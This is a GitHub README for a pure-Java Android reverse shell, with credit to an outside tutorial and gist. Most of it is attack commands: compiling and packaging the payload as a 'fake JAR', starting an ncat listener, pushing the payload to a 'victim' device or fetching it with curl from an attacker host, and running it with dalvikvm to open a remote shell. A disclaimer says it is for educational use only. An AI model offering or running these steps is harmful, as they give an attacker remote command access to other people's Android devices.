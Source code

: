 # Pure Java Android Reverse Shell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

## On Attacker machine (you need android sdk installed and build-tools also):

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 --output classes.dex AndroidReverseShell.class`

#### create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner and so on...

## Todo

. Support for SSL encryption

## Disclaimer:

*This is for educational use only.*

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java
All credits goes to original developer

